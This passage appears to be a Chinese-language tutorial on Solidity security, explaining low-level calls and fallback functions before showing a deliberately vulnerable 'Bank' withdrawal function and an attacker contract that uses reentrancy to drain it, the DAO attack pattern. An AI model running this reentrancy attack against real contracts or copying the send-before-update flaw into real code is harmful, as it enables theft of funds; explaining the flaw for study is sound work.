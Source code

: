 最后 x = 0。注意是等于 0！

而下面这个是低等的：

```solidity
contract Bob {
	uint x = 0;
	function pong(address c) {
		x = 1;
		c.call.value(10000)(
			bytes4(sha3("ping(uint)"), 10
		); // 有问题
		x = 2;
	}
}
```

最后 x = 2。

对于报错（Exception），高等调用的时候会处理，但是低等调用的时候会对此不闻不问。

Solidity 需要一个合约有正好一个无名函数，这个函数在没有任何其它函数符合条件的时候被执行。它不能有参数，不能有返回值，并且必须是 external 权限。这个无名函数就叫做 fallback 函数。

当合约接收到以太币但是不调用任何函数的时候，就会执行 fallback 函数。如果一个合约接收了以太币但是内部没有 fallback 函数，那么就会抛出异常，然后将以太币退还给发送方。

利用它，可以执行一个 DAO 攻击。

```solidity
contract Bank {
	function withdrawBalance() {
		uint amountToWithdraw = userBalances[msg.sender];
		if (msg.sender.call.value(amountToWithdraw)() == false) {
			throw;
		}
		userBalances[msg.sender] = 0;
	}
}
```

这个是个银行的代码的一部分。用户可以在里面存取钱。这个函数描述的取出所有钱的功能。

而它有很大的问题：把用户余额清零的那一行放在了发送以太币之后！

我们利用 fallback 函数来攻击它：

```solidity
contract Kali {
	address addressOfBank;
	uint attackCount;

	function Kali(address addr) payable {
		addressOfBank = addr;
		attackCount = 2;
	}

	function () payable {
		while (attackCount > 0) {
			attackCount--;
			Bank bank = Bank(addressOfBank);
			bank.withdrawBalance();
		}
	}

	function withdraw() {
		Bank bank = Bank(addressOfBank);
		bank.withdrawBalance();
	}
}
```
